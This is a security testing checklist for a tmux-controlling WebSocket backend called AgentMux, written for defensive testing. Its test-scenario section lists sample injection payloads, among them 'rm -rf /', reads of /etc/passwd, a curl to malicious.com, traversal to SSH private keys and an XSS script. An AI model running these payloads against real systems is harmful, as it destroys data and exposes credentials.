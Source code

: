 # AgentMux Backend Security Testing Checklist

## 🔒 Critical Security Areas

### 1. Command Injection Prevention
- [ ] Validate all tmux commands before execution
- [ ] Sanitize session names, window names, and message content
- [ ] Test with malicious payloads: `; rm -rf /`, `$(whoami)`, `\`cat /etc/passwd\``
- [ ] Verify tmux commands are properly escaped
- [ ] Test special characters in session/window names

### 2. Network Security
- [ ] Verify server only binds to localhost/127.0.0.1 in production
- [ ] Test CORS configuration - should reject unauthorized origins in production
- [ ] Validate rate limiting is working (100 requests per 15 minutes)
- [ ] Test helmet security headers are applied
- [ ] Verify WebSocket CORS restrictions

### 3. Input Validation & Sanitization
- [ ] Test oversized JSON payloads (>1MB limit)
- [ ] Validate all socket.io event data
- [ ] Test null/undefined values in required fields
- [ ] Test extremely long strings in session/window names
- [ ] Validate numeric inputs for window/pane IDs

### 4. Authentication & Authorization
- [ ] No authentication currently implemented - document security risk
- [ ] Verify no sensitive data in error messages
- [ ] Test unauthorized access to tmux operations
- [ ] Validate session isolation (if applicable)

### 5. Error Handling & Information Disclosure
- [ ] Test error responses don't leak system information
- [ ] Verify stack traces aren't exposed to clients
- [ ] Test malformed requests return appropriate errors
- [ ] Validate tmux command failures are handled gracefully

### 6. Resource Protection
- [ ] Test concurrent connection limits
- [ ] Validate memory usage under load
- [ ] Test file descriptor limits
- [ ] Verify no unbounded resource allocation

### 7. WebSocket Security
- [ ] Test malformed WebSocket frames
- [ ] Validate connection cleanup on disconnect
- [ ] Test rapid connect/disconnect cycles
- [ ] Verify callback function security

## 🧪 Test Scenarios

### Malicious Input Tests
```javascript
// Command injection attempts
"session'; rm -rf /tmp; echo 'pwned"
"$(cat /etc/passwd)"
"`whoami`"
"session\n\nrm -rf /"
"session&&curl malicious.com"

// Path traversal
"../../etc/passwd"
"../../../root/.ssh/id_rsa"

// Overflows
"A".repeat(10000)
"\x00\x01\x02"
"<script>alert('xss')</script>"
```

### Network Security Tests
- Attempt connections from unauthorized origins
- Test rate limiting with automated requests
- Verify localhost binding prevents external access
- Test HTTPS upgrade behavior

### Resource Exhaustion Tests
- Open maximum concurrent WebSocket connections
- Send rapid-fire socket events
- Create hundreds of tmux windows
- Test memory usage with large payloads

## 🚨 High-Risk Areas

1. **tmux Command Execution** - Direct shell access risk
2. **No Authentication** - Anyone can control tmux sessions
3. **WebSocket Events** - Unvalidated input to system commands
4. **CORS Configuration** - Overly permissive in development
5. **Process Spawning** - node-pty could be dangerous

## 📋 Manual Testing Checklist

- [ ] Start server and verify port binding
- [ ] Test health endpoint returns expected response
- [ ] Connect WebSocket client and test all events
- [ ] Attempt to inject commands in various parameters
- [ ] Test error conditions and validate responses
- [ ] Monitor system resources during testing
- [ ] Verify no unauthorized file access
- [ ] Test graceful shutdown behavior

## 🔍 Automated Tests Required

- Unit tests for all tmux operations
- Integration tests for WebSocket events
- Security-focused test cases
- Load testing with concurrent connections
- Fuzzing tests for input validation